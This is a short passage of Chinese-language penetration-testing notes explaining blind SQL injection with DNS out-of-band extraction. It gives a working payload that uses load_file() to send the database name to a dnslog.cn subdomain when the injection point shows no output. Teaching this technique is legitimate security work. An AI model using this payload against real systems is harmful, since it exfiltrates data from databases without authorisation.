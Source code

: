 条件：需要ROOT高权限且支持load_file()

场景：注入点没有回显

注释掉代码使其不回显

![image-20240409225256417](../图片/image-20240409225256417.png)



```sql
id=1 and load_file(concat("\\\\",database(),".ik1wtw.dnslog.cn\\xxx.txt"))

```

![image-20240409230456872](../图片/image-20240409230456872.png)

带出的子域名就是数据库名
